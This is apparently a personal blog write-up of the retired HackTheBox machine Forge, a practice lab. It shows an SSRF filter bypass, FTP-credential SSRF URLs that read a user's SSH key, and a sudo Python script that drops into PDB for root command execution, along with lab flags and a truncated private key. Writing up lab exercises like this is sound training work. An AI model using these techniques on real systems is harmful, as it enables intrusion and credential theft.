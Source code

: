 Title:HTB: Forge
Date: 01-21-2022 17:25
category:security
tags:security, boot2root, HTB, SSRF, LFI
meta:security, boot2root, HTB, SSRF, LFI

<img class="align-left" src="/media/2022.01/forge_card.png" alt="Forge Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Forge](https://www.hackthebox.eu/home/machines/profile/376) publish on
September 11, 2021 by
[NoobHacker9999](https://www.hackthebox.eu/home/users/profile/393721).
This box is rated as a medium machine but could be qualified as an easy medium
:). It implies a SSRF and an LFI as well as some Python and a
[PDB](https://docs.python.org/3/library/pdb.html).

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Friday Sep 17 04:59:56 2021 as: nmap -sSV -p- -oN notes.md -A 10.129.220.75
    Nmap scan report for 10.129.220.75
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE    SERVICE VERSION
    21/tcp filtered ftp
    22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))

## Website

The website is a gallery that allow to upload an image either from the
filesystem or from an URL.

We use [wfuzz](https://github.com/xmendez/wfuzz) in addition to the
[subdomain secList](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)
to discover that the domain admin.forge.htb exist.

    :::text
    └─$ wfuzz -c -w subdomains-top1million-5000.txt --sc 200 -H "HOST:FUZZ.forge.htb" http://forge.htb
    /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://forge.htb/
    Total requests: 4989

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000000024:   200        1 L      4 W        27 Ch       "admin - admin"

We cannot access the admin interface as some IP filtering is in place.
We try to includ the page by uploading it as an image using the URL but it
failes with an error message: "URL contains a blacklisted address!"

We try the same inclusiion by using upper case on the "FORGE" domain and got the
page http://admin.FORGE.htb

    :::HTML
    <title>Admin Portal</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br><br>
        <br><br><br><br>
        <center><h1>Welcome Admins!</h1></center>
    </body>
    </html>

We look at the `announcements` page:

        :::html
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>


We try to load the FTP page using the disclosed credentials
`http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/`
We got two files `user.txt` and `snap`.

We take a look at the `.ssh/id_rsa` file (worst case scenario it does not
exist) using `http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/.ssh/id_rsa`
and got the RSA private key. We can now connect as `user` using SSH and grab the
user flag.

    :::text
    └─$ ssh user@forge.htb -i id_rsa
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    user@forge:~$ cat user.txt
    4a8aed62cdd2fca87ce185b780ee3e89

# Root

We look at our privileges (`sudo -l`) and we see that we can run `/usr/bin/python3 /opt/remote-manage.py`
as `root` without password. Looking at the script it is a remote manager script
that will land us a [PDB](https://docs.python.org/3/library/pdb.html) if it got
a unrecognized input. So we launch the script, connect to it using another SSH
terminal and `nc`, then we just input a "q" that will not be recognize and get
a [PDB](https://docs.python.org/3/library/pdb.html) in our first shell allowing
us to load the `os` module and execute system commands as root using
`os.system([COMMAND])`.

    :::text
    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:59816
    invalid literal for int() with base 10: b'q'
    > /opt/remote-manage.py(27)<module>()
    -> option = int(clientsock.recv(1024).strip())
    (Pdb) --KeyboardInterrupt--
    (Pdb) import os
    (Pdb) os.system('id')
    uid=0(root) gid=0(root) groups=0(root)
    0

We just grab the root SSH private key and connect on the box as `root` allowing us
to get the flag.

    :::text
    (Pdb) os.system('ls /root/.ssh')
    authorized_keys  id_rsa  id_rsa.pub
    0
    (Pdb) os.system('cat /root/.ssh/id_rsa')
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAusTE7uvvBLrfqDLv6I/+Xc9W/RVGA4eFPOowUNkHDZ4MTUm4cK4/
    DdTvY7o7bvSinEX26rWdG4eVY3qnBGSACl3VIGX80NsWgyZwWQT20Vj0q8gf674RB4LfB6
    i6Awm8cbm3105HxfQnqr4qr2oJEpyDVaF29zpaS+6y0Ogq7HcRkSyQyErBnGmlOYBcBvvh
    <SNIP>
    -----END OPENSSH PRIVATE KEY-----

    └─$ ssh forge.htb -l root -i id_rsa_root
    root@forge:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@forge:~# cat root.txt
    5a7c66fcccbc8a380f220f349e6eea95

# Wrapping up

This box was really easy for a medium one. The root part really easy. I
triggered it by mistake as "q" for quit is an old habit. Once you get the
subdomain the user part just requires to follow the dots. A great medium box for
beginners.

